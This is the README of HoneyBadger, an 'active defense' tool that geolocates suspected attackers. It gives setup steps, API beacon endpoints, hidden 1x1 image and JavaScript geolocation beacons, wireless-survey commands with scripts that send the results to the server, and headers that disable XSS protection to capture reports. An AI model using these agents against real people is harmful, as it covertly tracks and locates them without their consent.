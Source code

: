 # HoneyBadger v3

<div align="center">
![](/server/honeybadger/static/honeybadger.png)

![GitHub repo size](https://img.shields.io/github/repo-size/just5ky/honeybadger?label=Repo%20Size&logo=github)
![Docker Build](https://github.com/just5ky/honeybadger/workflows/Docker/badge.svg) 
![Docker Pulls](https://img.shields.io/docker/pulls/justsky/honeybadger)
![Docker Size](https://img.shields.io/docker/image-size/justsky/honeybadger)

</div>

HoneyBadger is a framework for targeted geolocation. While honeypots are traditionally used to passively detect malicious actors, HoneyBadger is an Active Defense tool to determine who the malicious actor is and where they are located. HoneyBadger leverages "agents", built in various technologies that harvest the requisite information from the target host in order to geolocate them. These agents report back to the HoneyBadger API, where the data is stored and made available in the HoneyBadger user interface.

An early prototype of HoneyBadger (v1) can be seen in the presentation "[Hide and Seek: Post-Exploitation Style](http://youtu.be/VJTrRMqHU5U)" from ShmooCon 2013. The associated Metasploit Framework modules mentioned in the above presentation can be found [here](https://github.com/v10l3nt/metasploit-framework/tree/master/modules/auxiliary/badger). Note: These modules have not been updated to work with v2 of the API.

## Getting Started

### Pre-requisites

* ~~Python 3.x~~
* Docker


#### Docker Run
`docker run --rm --name honeybadger  -p 5000:5000  justsky/honeybadger`

#### Docker compose

```yml
version: "3"
services:
    honeybadger
        name: honeybadger
        restart: unless-stopped
        image: justsky/honeybadger
        ports:
            - "5000:5000"
```

### Installation (Ubuntu and OS X)

1. Install [pip](https://pip.pypa.io/en/stable/installing/). (Make sure to use `pip3` if you also have Python2 installed)
2. Clone the HoneyBadger repository.

    ```
    $ git clone https://github.com/adhdproject/honeybadger.git
    ```

3. Install the dependencies.

    ```
    $ cd honeybadger/server
    $ pip install -r requirements.txt
    ```

4. Initialize the database. The provided username and password will become the administrator account.

    ```
    $ python
    >>> import honeybadger
    >>> honeybadger.initdb("<username>", "<password>")
    ```

5. Start the HoneyBadger server. API keys are required to use maps and geolocation services.

    ```
    $ python ./honeybadger.py -gk <GOOGLE_API_KEY> -ik <IPSTACK_API_KEY>
    ```

    Honeybadger will still run without the API keys, but mapping and geolocation functionality will be limited as a result.

    View usage information with either of the following:

   ```
   $ python ./honeybadger.py -h
   $ python ./honeybadger.py --help
   ```


6. Visit the application and authenticate.
7. Add users and targets as needed using their respective pages.
8. Deploy agents for the desired target.

Clicking the "demo" button next to any of the targets will launch a demo web page containing an `HTML`, `JavaScript`, and `Applet` agent for that target.

### Fresh Start

Make a mess and want to start over fresh? Do this.

```
$ python
>>> import honeybadger
>>> honeybadger.dropdb()
>>> honeybadger.initdb(<username>, <password>)
```

## API Usage

### IP Geolocation

This method geolocates the target based on the source IP of the request and assigns the resolved location to the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

### Known Coordinates

This method accepts previously resolved location data for the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>?lat=<float:latitude>&lng=<float:longitude>&acc=<integer:accuracy>
```

### Wireless Survey

This method accepts wireless survey data and parses the information on the server-side, extracting what is needed to make a Google API geolocation call. The resolved geolocation data is then assigned to the given target. Parsers currently exist for survey data from Windows, Linux and OS X using the following commands:

Windows:

```
cmd.exe /c netsh wlan show networks mode=bssid | findstr "SSID Signal Channel"
```

There is a powershell script in the util directory that can be used to automatically send data to the server:
```
powershell .\wireless_survey.ps1 -uri <URI>
```

Linux:

```
/bin/sh -c iwlist scan | egrep 'Address|ESSID|Signal'
```

There is a shell script in the util directory that can be used to automatically send data to the server:
```
bash ./wireless_survey.sh <URL>
```

OS X:

```
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

Example: (Method: `POST`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

POST Payload:

```
os=<string:operating-system>&data=<base64:data>
```

The `os` parameter must match one of the following regular expressions:

* `re.search('^mac os x', os.lower())`
* `re.search('^windows', os.lower())`
* `re.search('^linux', os.lower())`

### Universal Parameters

All requests can include an optional `comment` parameter. This parameter is sanitized and displayed within the UI as miscellaneous information about the target or agent.

## Example Web Agents

### HTML

```
img = new Image();
img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/HTML";
```

or

```
<img src="http://<path:honeybadger>/api/beacon/<guid:target>/HTML" width=1 height=1 />
```

### JavaScript

Note: JavaScript (HTML5) geolocation agents will not work unless deployed in a secure context (HTTPS), or local host.

```
function showPosition(position) {
    img = new Image();
    img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/JavaScript?lat=" + position.coords.latitude + "&lng=" + position.coords.longitude + "&acc=" + position.coords.accuracy;
}

if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
}
```

### Content Security Policy

```
response.headers['X-XSS-Protection'] = '0'
response.headers['Content-Security-Policy-Report-Only'] = '<string:policy>; report-uri http://<path:honeybadger>/api/beacon/<guid:target>/Content-Security-Policy'
```

### XSS Auditor

```
response.headers['X-XSS-Protection'] = '1; report=http://<path:honeybadger>/api/beacon/<guid:target>/XSS-Protection'
```
